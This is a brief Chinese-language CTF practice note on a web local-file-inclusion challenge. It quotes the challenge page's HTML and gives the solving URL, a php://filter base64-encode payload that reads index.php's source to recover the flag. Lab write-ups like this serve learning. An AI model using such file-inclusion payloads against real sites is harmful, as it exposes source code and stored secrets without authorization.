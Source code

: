 ##CTF联系纪要##
##实验地址：https://cgctf.nuptsast.com/challenges#Web###
###实验资料：https://ctf-wiki.github.io/ctf-wiki

1.web
 .文件包含 属于php代码审计类
 题目：文件包含没错 这就是传说中的LFI
 源码分析：<html>
    <title>asdf</title>
    
<a href="./index.php?file=show.php">click me? no</a></html>
使用连接：http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/convert.base64-encode/resource=index.php  decode base64获得flag
